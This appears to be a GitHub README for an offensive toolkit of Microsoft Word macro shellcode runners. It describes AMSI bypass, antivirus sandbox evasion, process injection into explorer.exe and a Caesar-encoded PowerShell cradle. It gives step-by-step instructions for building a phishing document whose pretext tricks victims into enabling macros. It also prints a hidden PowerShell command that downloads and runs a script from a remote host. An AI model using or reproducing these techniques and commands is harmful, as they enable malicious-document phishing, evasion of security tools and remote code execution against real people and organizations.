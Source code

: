 # Macro Shellcode Runners

## ToC

| Application | Notes |
| ----------- | ----- |
| `WordMacroRunner.vbs` | Baseline runner that will return a shell from WINWORD.exe, bypass AMSI, & run on both 64-bit and 32-bit |
| `WordMacroRunnerBasic.vbs` | Basic shellcode runner. `WordMacroRunner.vbs` without AMSI bypass or IP check |
| `WordMacroInject.vbs` | Inject into `explorer.exe` (*only good for 64-bit word*) | 
| `WordPsCradle.vbs` | Macro with Caesar Cipher encoding that calls a PS download cradle |
| `vbObfuscate.ps1` | PS script to generate Caesar Cipher code for `WordPsCradle.vbs` |


### Setup/formatting information:
1. Write "legitimate" contents of the word doc, select all, then navigate to Insert > Quick Parts > AutoTexts and Save Selection to AutoText Gallery
2. Give it a name, make sure it's saved to that particular document and not a template. Hit ok. Then delete the content from the body of the word doc.
3. Copy in/write your pretexting content to the body of the word doc.  This is the piece that include "enable macros, hit this key combo to execute" etc.
4. Go to Macro's and click record new macro.  Ensure on both screens you select the current document and not a template.  Click keyboard and then hit a key combination to map (e.g. Alt + D).  Once you hit ok/close, recording will begin.  Then go click macros again, view, select the main runner sub, and then click run.  This will map that sequence to Alt + D so that when it is entered the runner sub will be executed.

## `WordMacroRunner.vbs`
This is a baseline runner that will return a shell from WINWORD.exe. Has capabilities to detect AMSI and patch it if found (for both 32-bit and 64 bit) as well as contains shellcode for both 32-bit and 64 bit Word so it can execute after detecting architecture. 

The only apparent obfuscation on the shellcode itself is that its written in an integer array, no encoding/encrypting. Uses sleep calls to determine if being simulated by AV. Also makes sure the target is in the `192.168.0.0/16` IP range.

## `WordMacroRunnerBasic.vbs`
This is just a basic version of `WordMacroRunner.vbs` without AMSI Bypass or IP Check.

## `WordPsCradle.vbs`
Macro with Caesar Cipher encoding that calls a PowerShell download cradle.  Use with `vbObfuscate.ps1` to generate and replace obfuscated text in `WordPsCradle.vbs`. This uses WMI dechaining, so **still use x64 shellcode even if you are targeting x86 word**!

## `vbObfuscate.ps1`
Powershell script to generate Caesar Cipher code for `WordPsCradle.vbs`.  Make sure offsets match for encrypt/decrypt. First output is download cradle, last is app name for app name check before running. 

**This is where you would edit the PS Cradle you would like to run**. The default is:
```ps1
powershell -exec bypass -nop -w hidden -c iex(new-object net.webclient).downloadstring('http://192.168.49.66/attach.txt')
```

## `WordMacroInject.vbs`
This macro performs process injection.  Currently injects into  `explorer.exe` in 64-bit word, and `WINWORD.exe` in 32-bit Word. Migration should be performed ASAP before Microsoft Word is closed by the victim if run on 32-bit. 

Uses sleep calls to determine if being simulated by AV. The shellcode is not obfuscated at all, that is left up to the reader.

### Notes
*This runner is really only stable for 64-bit word*, because of the lack of suitable 32-bit injection targets on a 64-bit OS.  Seeing as we have no idea what version of word an organization will be running, the use case for this is limited. 

> Starting in Word 2019 the program is 64 bit by default. This means Word 2019,O365,2021 are all good candidates for Injection because Orgs/individuals would have to go out of their way to have downloaded the 32 bit one.

*The issue stems from the fact that 32 bit processes cannot easily inject into 64 bit ones*. The presumed typical target environment will be running 32 bit word on a 64 bit OS, which renders the injection into explorer impossible.

There are advanced techniques out there that might be able to facilitate this (*Heaven's gate*) but no idea if they could be implemented in VBA. Additionally there is no telling what/if any other 32 bit processes suitable for injection might be running on a target machine, other than `WINWORD.exe` at least momentarily.

In theory code could be written to enumerate running 32 bit processes and then just try to inject into an arbitrary one, but there are obvious issues concerning stability, and longevity of the process to maintain a reverse shell.  In reality just using a non-injecting runner and then setting up a C2 to automigrate is probably best practice as they are equipped to do so.

